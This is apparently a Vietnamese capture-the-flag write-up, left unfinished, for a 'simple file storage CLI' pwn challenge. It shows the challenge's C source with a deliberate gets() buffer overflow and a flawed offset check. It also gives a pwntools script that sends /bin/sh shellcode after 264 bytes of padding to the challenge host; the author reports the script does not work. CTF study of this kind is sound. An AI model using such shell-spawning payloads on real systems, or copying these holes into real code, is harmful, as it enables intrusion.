

# Source code
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <dirent.h>
#include <signal.h>

void handler(int sig)
{
    puts("Session timed out");
    _exit(0);
}

void setup()
{
    alarm(60);
    signal(SIGALRM, handler);
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);
}

int read_line(char *buf, int n)
{
    for (int i = 0; i < n; ++i)
    {
        if (fread(buf + i, 1, 1, stdin) != 1)
        {
            puts("Fatal error!");
            _exit(-1);
        }
        if (buf[i] == '\n')
        {
            buf[i] = '\0';
            return i;
        }
    }

    buf[n - 1] = '\0';
    return n;
}

void print_help()
{
    puts("help: Print this help");
    puts("ls: List files");
    puts("cat <file> [offset] [length]: Print [length] bytes of <file> starting from [offset]");
    puts("exit: Exit the CLI");
}

void list_dir()
{
    DIR *d;
    struct dirent *dir;
    d = opendir("files");
    if (d)
    {
        while ((dir = readdir(d)) != NULL)
        {
            if (!strcmp(dir->d_name, ".") || !strcmp(dir->d_name, ".."))
            {
                continue;
            }
            puts(dir->d_name);
        }
        closedir(d);
    }
}

void print_file(const char *path, int off, int len)
{
    static char fixed[4096] __attribute__((section(".dynamic")));
    int file_len;
    char *buf = NULL;
    char ppath[512];

    strcpy(ppath, "files/");
    strcat(ppath, path);

    FILE *f = fopen(ppath, "rb");
    if (f == NULL)
    {
        puts("Error opening file");
        return;
    }

    fseek(f, 0, SEEK_END);
    file_len = ftell(f);
    fseek(f, 0, SEEK_SET);

    if (len == -1)
    {
        len = file_len;
    }

    if (file_len > sizeof(fixed))
    {
        buf = calloc(file_len, 1);
    }
    else
    {
        buf = fixed;
    }

    if (buf + off + len > buf + file_len)
    {
        puts("Invalid offset and length parameters");
        goto cleanup;
    }

    fread(buf, 1, file_len, f);
    fwrite(buf + off, 1, len, stdout);

cleanup:
    if (buf != NULL && buf != fixed)
    {
        free(buf);
    }

    fclose(f);
}

void feedback()
{
    char buf[256];

    puts("Please give us your feedback on the service!");
    gets(buf);
    puts("Bye!");
}

int main()
{
    char *cmd, *path, *start, *len, *pwd;
    int off, ilen;
    char buf[256];

    setup();
    puts("Simple file storage CLI v0.1");
    puts("Type \"help\" for list of available commands");

    while (1)
    {
        printf("\n> ");
        if (read_line(buf, sizeof(buf)) == 0)
        {
            continue;
        }
        cmd = strtok(buf, " ");
        if (cmd == NULL)
        {
            continue;
        }
        if (!strcmp(cmd, "exit"))
        {
            break;
        }
        if (!strcmp(cmd, "help"))
        {
            print_help();
            continue;
        }
        if (!strcmp(cmd, "ls"))
        {
            list_dir();
            continue;
        }
        if (!strcmp(cmd, "cat"))
        {
            path = strtok(NULL, " ");
            if (path == NULL)
            {
                puts("Missing required parameter: file");
                continue;
            }
            if (strlen(path) > 256)
            {
                puts("Path too long");
                continue;
            }
            if (strchr(path, '/'))
            {
                puts("Path traversal is not supported\n");
                continue;
            }
            start = strtok(NULL, " ");
            if (start == NULL)
            {
                off = 0;
            }
            else
            {
                off = strtol(start, NULL, 10);
            }
            len = strtok(NULL, " ");
            if (len == NULL)
            {
                ilen = -1;
            }
            else
            {
                ilen = strtol(len, NULL, 10);
            }
            print_file(path, off, ilen);
        }
    }

    feedback();
    _exit(0);
}
```
- Nhìn source code, chương trình cho phép nhập vào các tùy chọn `ls, cat, exit, help`
- Với tùy chọn `help` chương trình cho ta hướng dẫn 

- Với tùy chọn `ls` để có thể liệt kê các tệp và file có trong `files`

- Ta thấy có 3 file có trong thư mục `files`
- Với tùy chọn `cat`, cho phép nhận với định dạng `cat <file> [offset] [length]` với `file` là tên file cần đọc từ vị trí `offset` với độ dài cần đọc là `length` byte
- 
- Nếu nhập tùy chọn `cat` với `offset` và `lenght` ta không nhập dữ liệu và để là `NULL` thì sẽ đọc ra toàn bộ dữ liệu có trong tệp cần đọc
- Ta thử `cat` từng file 

- hmmmmmm, không thấy có gì để khai thác ở đây...
- Tùy chọn cuối cùng là `exit` sẽ thoát vong while và thực thi hàm `feedback()` nhưng ta thấy có lỗi `buffer overflow` ở đây có thể khai thác được
```c 
void feedback()
{
    char buf[256];

    puts("Please give us your feedback on the service!");
    gets(buf);
    puts("Bye!");
}
```
- Nhưng khó khăn khi challenge này không cho ta file thực thi để ta có thể biết được các biện pháp bảo vệ, các gadget,... gây ra rất nhiều khó khăn 
- Thử biên dịch file source code sang file thực thi để xem có thể khai thác được gì
- Thử viết script để chiếm shell 
```python=
#!/usr/bin/python3

from pwn import *

context.arch = 'amd64'

#p = process('./chall')
p = remote('file_storage.pwnable.vn', 10000)

shell = asm('''
        mov rdi, 29400045130965551
        push rdi
        mov rdi, rsp
        xor rsi, rsi
        xor rdx, rdx
        mov rax, 0x3b
        syscall
''')

payload = b'A'*264
payload += shell

p.sendlineafter(b'> ', b'exit')
p.sendlineafter(b'Please give us your feedback on the service!\n', payload)

p.interactive()
```
- Nhưng cũng không giải quyết được vấn đề

- Cũng không có cách nào để leak libc bởi vì không có file thực thi chương trình
  ..................................????